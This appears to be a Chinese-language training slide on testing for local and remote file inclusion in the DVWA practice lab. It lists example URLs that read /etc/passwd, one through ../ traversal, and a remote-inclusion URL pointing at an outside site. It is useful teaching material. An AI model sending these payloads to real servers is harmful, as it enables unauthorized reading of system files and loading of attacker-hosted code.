

測試是否存在File inclusion vulnerability
原本是要讀取webServer上的file1.php來執行
http://IP/DVWA/vulnerabilities/fi/?page=file1.php
Local File inclusion(LFI)
卻被不肖客用來讀取webServer上的密碼檔
http://IP/DVWA/vulnerabilities/fi/?page=/etc/passwd
http://IP/DVWA/vulnerabilities/fi/?page=../../etc/passwd
Remote  File inclusion(RFI)
甚至被不肖客用來讀取別台機器上的惡意程式
(通常都是不肖客自己植入在國外網站)
http://IP/DVWA/vulnerabilities/fi/? page=http://www.google.com